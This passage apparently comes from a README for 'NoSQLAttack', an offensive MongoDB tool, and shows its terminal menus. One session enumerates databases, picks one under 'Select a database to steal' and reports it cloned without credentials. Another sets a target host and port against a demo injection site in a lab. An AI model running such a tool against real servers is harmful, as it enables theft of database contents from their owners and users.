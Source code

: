 ```bash
KioskPointMng2_UserData
admin
db
local

1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
Select an attack: 3


(1)MultiCopyService_UserData
(2)SmartNFC_UserData
(3)SmartShop_UserData
(4)KioskPointMng2_UserData
(5)admin
(6)db
(7)dbItem
(8)local
Select a database to steal:6
Does this Database require credentials.(y/n)?n
Database cloned. Copy another (y/n)?

```
# 选项2系统配置信息演示 
这里以这个攻击地址为例(219.223.240.36/NoSQLInjectionAttackDemo/demo_2.html)，这里的IP：219.223.240.36 下部署了web服务器在我本地的电脑，所以外网是访问不了的，这个用于测试的web站点的源码在这个项目里[NoSQLInjectionAttackDemo](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo). 使用者可以自己搭建一个web服务器然后将这个项目[NoSQLInjectionAttackDemo](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo)的代码放上去就可以运行了，然后将这个IP219.223.240.36换成搭建好的web服务器的IP。
```bash
===============================================
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |_   _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |    | |_  | |_| |  ||__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
===============================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
Select an option:2

Options
1-Set target host/IP (Current: Not Set)
2-Set web app port (Current: 80)
3-Set App Path (Current: Not Set)
4-Toggle HTTPS (Current: OFF)
5-Set Not Set Port (Current : 27017)
```
